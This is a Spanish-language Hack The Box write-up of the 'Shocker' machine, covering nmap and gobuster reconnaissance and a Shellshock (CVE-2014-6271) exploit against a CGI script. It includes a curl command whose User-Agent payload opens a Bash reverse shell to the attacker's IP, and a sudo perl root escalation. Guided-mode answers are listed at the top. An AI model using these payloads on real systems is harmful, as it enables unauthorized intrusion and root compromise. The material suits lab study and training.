 ```yaml
---
title: Writeup shocker - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - shocker
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina shocker en Hack The Box.
keywords:
  - writeup shocker
  - hack the box shocker
  - resolución máquina shocker
  - shocker hack the box
  - htb shocker
---
```

------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/Facil/Linux/Shocker)
- 📺 **Resolución en vivo (completa)**: [Parte1](https://www.youtube.com/watch?v=vaxNMG6xigI)|[Parte2](https://www.youtube.com/watch?v=o5cVkovAiAY)
- 🧠 **Explicación resumida**: [Link](https://www.youtube.com/watch?v=gTelKKOMDQw)

--------

#easy #linux #nmap #ping #shellshock #tratamientotty #reverseshell #whatweb #wappalyzer #sudo-l #CVE-2014-6271

-------
# Guided Mode

1)¿Cuántos puertos TCP están a la escucha en Shocker?
	2

2)¿Cuál es el nombre del directorio disponible en el servidor web que es un nombre estándar conocido por ejecutar scripts a través de la interfaz de puerta de enlace común?
	cgi-bin

3)¿Cómo se llama el script del directorio cgi-bin?
	user.sh

4)Pregunta opcional: ¿El resultado de user.sh coincide con el resultado de qué comando estándar de Linux?
	uptime

5)¿Qué CVE ID de 2014 describe una vulnerabilidad de ejecución remota de código en Bash cuando se invoca a través de Apache CGI?
	CVE-2014-6271

6)¿Con qué usuario se ejecuta el servidor web en Shocker?
	shelly

*La pregunta anterior era la flag de user.txt*
8)¿Qué binario puede ejecutar el usuario shelly como root en Shocker?
	perl

-----
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.10.56 
nmap -p- --open -vvv -sS --min-rate 5000 -n -Pn 10.10.10.56 -oG allPorts
extractPorts allPorts
nmap -sCV -p80,2222 10.10.10.56 -oN target
```

![[Shocker4.png]]
![[Shocker5.png]]
*TLL:* Maquina linux
*Puertos:*
	`80` HTPP
	`2222` [[ssh]]

------
# [[Whatweb-wappalyzer]]

```shell
whatweb http://10.10.10.56
```
![[Shocker3.png]]
![[Shocker6.png]]
No obtenemos ninguna informacion relevante

-------------
# [[Gobuster]]

```shell
gobuster dir -u http://10.10.10.56 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt --add-slash -t 64
```

![[Shocker8.png]]

Nos da que existe un directorio http://10.10.10.56/cgi-bin/

Ahora aplicamos enumeracion en este directorio buscando archivos con extension  ``.sh .pl .cgi`` 

```shell
gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -x sh,pl,cgi -t 64
```

![[Shocker9.png]]

Y da que en el directorio *cgi-bin* hay un archivo *user.sh*   `http://10.10.10.56/cgi-bin/user.sh`

-------
# [[NMAP Scripts]]

Como estamos ante el directorio *cgi-bin*, ejecutamos un comando de enumaracion de shellshock de `nmap` poniendo el archivo de *user.sh* que encontramos antes:
```shell
nmap -p80 10.10.10.56 --script http-shellshock --script-args uri=/cgi-bin/user.sh
```

![[Shocker2.png]]
Nos indica que es vulnerable a [[CVE-2014-6271]]

---------
# Explotacion [[CVE-2014-6271]] y [[Reverse shell]]

[Articulo de shellshock](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/cgi.html)
Vamos a usar [[curl]] con el comando `curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh" -H "User-Agent: () { :; };echo;echo; /bin/bash -i >& /dev/tcp/10.10.16.6/443 0>&1"`
	se pone el ;echo;echo para separar el payload malioso del comando `curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh" -H "User-Agent: () { :; }/bin/bash -i >& /dev/tcp/10.10.16.6/443 0>&1"`

Ahora nos vamos a poner en escucha con [[nc -nlvp 443]]
![[Imagenes/Shocker1.png]]
Ya ganamos acceso a la maquina

-----
# [[Tratamiento de la TTY]]

---
# Escalada de privilegios con [[Abuso de Sudo]]

```shell
sudo -l
```

![[Shocker10.png]]

Se puede ejecutar el binario de */usr/bin/perl*, con privilegio de root sin contraseña. 
Asi que vamos a la pagina de [gtfobins](https://gtfobins.github.io/gtfobins/perl/#sudo) y nos da un comando para ejecutar una bash con privilegios

![[Shocker11.png]]

```bash
sudo /usr/bin/perl -e 'exec "/bin/sh";'
```

Y como se puede apreciar, ya somos root, y podemos catear las flags
![[Shocker12.png]]

# Notas

--------

Me paso que si no ejecutaba el script de nmap, no se me ejecutaba el payload, no me llegaba la revershell


-------
# 📚Creditos

[Writeup de Bast1an1c](https://bast1ant1c.github.io/shocker/#)  
Writeup oficial de HTB
